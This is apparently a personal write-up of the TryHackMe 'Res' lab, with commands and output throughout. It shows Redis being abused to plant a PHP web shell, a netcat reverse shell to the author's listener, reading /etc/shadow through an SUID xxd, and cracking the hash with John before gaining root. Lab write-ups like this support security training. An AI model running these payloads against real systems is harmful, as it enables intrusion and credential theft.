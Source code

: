 ```yaml
---
title: "Try Hack Me - Res"
date: "2022-07-11"
categories: 
  - "try-hack-me"
tags: 
  - "easy"
  - "redis"
  - "starter"
  - "thm"
  - "xxd"
---
```


Res is an easy, semi guided challenge from [TryHackMe](https://tryhackme.com). It is part of their Starter series and features a cool initial access vector that I had never seen before, as well as a pretty interesting privilege escalation path. As it is an easy challenge, neither are particularly difficult but I definitely enjoyed the challenge.

## Enumeration

As always, finding the open ports was the first step. I ran an initial port scan (`nmap -p- 10.10.40.166`) to find the two open ports and then ran the scan below to get more info:

~/Documents/thm/res » nmap -p80,6379 10.10.40.166 -sV -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-27 12:12 EDT
Nmap scan report for 10.10.40.166
Host is up (0.10s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
6379/tcp open  redis   Redis key-value store 6.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.46 seconds

There's two open ports, which are 80 running a webserver and 6379 running [Redis](https://redis.io/topics/introduction). The webserver was a default page, and after some quick web enumeration scans seemed to not have anything so I moved on to Redis. Redis was the service I previously mentioned having not seen before, so I used [HackTrick's guide](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis) to gather more information. It turns out that Redis is a text based service that by default isn't encrypted, so netcat can easily interact with Redis with it's normal syntax (`nc 10.10.40.166 6379`). This ability is exploitable to get a shell on the system.

## Exploitation

Again from HackTricks, [one section](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#php-webshell) of their guide shows how this access with Redis can be used for remote code execution. Their guide shows using `<?php phpinfo(); ?>` to prove the code execution is possible as well as being on a different server architecture, but with a simple modification it will work for a reverse shell. Once in the netcat session, I ran these four commands back to back:

config set dir /var/www/html/
config set dbfilename redis.php
set test1 "\`<?php system($\_GET\['cmd'\]); ?>\`"
save

Basically, one thing Redis can do is be a database. This creates that database, but does it in an unintended way. It sets the location of the database file to be `/var/www/html/`, which is the default location for Apache web servers (this is where that the webserver found running on port 80 becomes important). It also sets the file name to be a php file to run a command, which can be executed by the webserver. All that had to be done now is start a netcat listener and go to `http://10.10.40.166/redis.php?cmd=nc%20-e%20/bin/bash%2010.8.89.26%204445` in a web browser to set the command to run as a netcat reverse shell. Once the listener connected, it was simple to collect the (redacted per TryHackMe's policies) user flag:

~/Documents/thm/res » nc -nlvp 4445
listening on \[any\] 4445 ...
connect to \[10.8.89.26\] from (UNKNOWN) \[10.10.40.166\] 36438
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
whoami
www-data
which python
/usr/bin/python
python -c "import pty;pty.spawn('/bin/bash')"
www-data@ubuntu:/var/www/html$ cd /home
cd /home
www-data@ubuntu:/home$ ls
ls
vianka
www-data@ubuntu:/home$ cd vianka
cd vianka
www-data@ubuntu:/home/vianka$ ls
ls
redis-stable  user.txt
www-data@ubuntu:/home/vianka$ cat user.txt
cat user.txt
<REDACTED>
www-data@ubuntu:/home/vianka$ 

## Privilege Escalation

I used [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to look for privilege escalation paths, and noticed something interesting in the SUID bit section (A manual method for this would be `find / -perm -u=s -type f 2>/dev/null`).

\-rwsr-xr-x 1 root root 44K May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 31K Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 40K Jan 27  2020 /bin/mount  --->  Apple\_Mac\_OSX(Lion)\_Kernel\_xnu-1699.32.7\_except\_xnu-1699.24.8
-rwsr-xr-x 1 root root 40K Mar 26  2019 /bin/su
-rwsr-xr-x 1 root root 44K May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 27K Jan 27  2020 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 71K Mar 26  2019 /usr/bin/chfn  --->  SuSE\_9.3/10
-rwsr-xr-x 1 root root 19K Mar 18  2020 /usr/bin/xxd
-rwsr-xr-x 1 root root 39K Mar 26  2019 /usr/bin/newgrp  --->  HP-UX\_10.20
-rwsr-xr-x 1 root root 134K Jan 31  2020 /usr/bin/sudo  --->  check\_if\_the\_sudo\_version\_is\_vulnerable
-rwsr-xr-x 1 root root 53K Mar 26  2019 /usr/bin/passwd  --->  Apple\_Mac\_OSX(03-2006)/Solaris\_8/9(12-2004)/SPARC\_8/9/Sun\_
Solaris\_2.3\_to\_2.5.1(02-1997)
-rwsr-xr-x 1 root root 74K Mar 26  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 40K Mar 26  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 10K Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 42K Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-r-sr-xr-x 1 root root 14K Sep  1  2020 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper

`xxd` is not a normal SUID binary, and being able to run it as root gives the ability to read any file on the system. Reading the shadow (password) file will give us some password hashes to possibly crack:

www-data@ubuntu:/tmp$ xxd -p /etc/shadow
xxd -p /etc/shadow
<REDACTED per THM>

For whatever reason, I wasn't able to get the hex values `xxd` gives back converted back to decimal correctly in the terminal, so I used a local copy of [CyberChef](https://gchq.github.io/CyberChef/) to get the plaintext shadow file. To crack the hashes, all that was needed now was to copy the passwd (users) file, put them in together in the correct format, and run them through `john`:

~/Documents/thm/temp/res » unshadow passwd shadow > unshadowed
~/Documents/thm/temp/res » john unshadowed 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ \[SHA512 256/256 AVX2 4x\])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
<REDACTED>      (vianka)     
1g 0:00:00:06 DONE 2/3 (2022-07-01 12:21) 0.1538g/s 2447p/s 2447c/s 2447C/s maryjane1..garfield1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

Now that the password for Vianka was known, I switched to her user and continued enumeration:

www-data@ubuntu:/tmp$ su vianka
su vianka
Password: <REDACTED>

vianka@ubuntu:/tmp$ 

The first privilege escalation method checked proved to be the next step. Vianka could run any command as root:

vianka@ubuntu:/tmp$ sudo -l
sudo -l
\[sudo\] password for vianka: <REDACTED>

Matching Defaults entries for vianka on ubuntu:
    env\_reset, mail\_badpass,
    secure\_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin

User vianka may run the following commands on ubuntu:
    (ALL : ALL) ALL
vianka@ubuntu:/tmp$

All that was left to do was to switch to root and grab the root flag:

vianka@ubuntu:/tmp$ sudo su
sudo su
root@ubuntu:/tmp# cd /root
cd /root
root@ubuntu:~# ls
ls
root.txt
root@ubuntu:~# cat root.txt
cat root.txt
<REDACTED>
root@ubuntu:~#
